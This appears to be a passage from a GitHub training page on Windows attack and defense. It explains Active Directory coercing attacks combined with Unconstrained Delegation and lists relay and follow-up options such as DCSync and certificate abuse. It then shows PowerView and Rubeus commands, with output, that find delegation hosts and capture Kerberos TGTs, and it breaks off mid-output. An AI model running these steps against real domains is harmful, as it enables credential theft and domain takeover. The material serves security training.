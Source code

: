 # windows_attack_defense
### Coercing Attacks a& Unconstrained Delegation Attack
Coercing attacks have become a one-stop shop for escalating privileges from any user to Domain Administrator. Nearly every organization with a default AD infrastructure is vulnerable. We've just tasted coercing attacks when we discussed the PrinterBug. However, several other RPC functions can perform the same functionality. Therefore, any domain user can coerce RemoteServer$ to authenticate to any machine in the domain. Eventually, the Coercer tool was developed to exploit all known vulnerable RPC functions simultaneously.

Similar to the PrinterBug, an attacker can choose from several "follow up" options with the reverse connection, which, as mentioned before, are:

1. Relay the connection to another DC and perform DCSync (if SMB Signing is disabled).
1. Force the Domain Controller to connect to a machine configured for Unconstrained Delegation (UD) - this will cache the TGT in the memory of the UD server, which can be captured/exported with tools like Rubeus and Mimikatz.
1. Relay the connection to Active Directory Certificate Services to obtain a certificate for the Domain Controller. Threat agents can then use the certificate on-demand to authenticate and pretend to be the Domain Controller (e.g., DCSync).
1. Relay the connection to configure Resource-Based Kerberos Delegation for the relayed machine. We can then abuse the delegation to authenticate as any Administrator to that machine.

**Attack**

We will abuse the second "follow-up", assuming that an attacker has gained administrative rights on a server configured for Unconstrained Delegation. We will use this server to capture the TGT, while Coercer will be executed from the Kali machine.

To identify systems configured for Unconstrained Delegation, we can use the Get-NetComputer function from PowerView along with the -Unconstrained switch:

```
PS C:\Users\bob\Downloads> Get-NetComputer -Unconstrained | select samaccountname

samaccountname
--------------
DC1$
SERVER01$
WS001$
DC2$
```
WS001 and SERVER01 are trusted for Unconstrained delegation (Domain Controllers are trusted by default). So either WS001 or Server01 would be a target for an adversary. In our scenario, we have already compromised WS001 and 'Bob', who has administrative rights on this host. We will start Rubeus in an administrative prompt to monitor for new logons and extract TGTs:

```
PS C:\Users\bob\Downloads> .\Rubeus.exe monitor /interval:1

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1

[*] Action: TGT Monitoring
[*] Monitoring every 1 seconds for new TGTs


[*] 18/12/2022 22.37.09 UTC - Found new TGT:

  User                  :  bob@EAGLE.LOCAL
```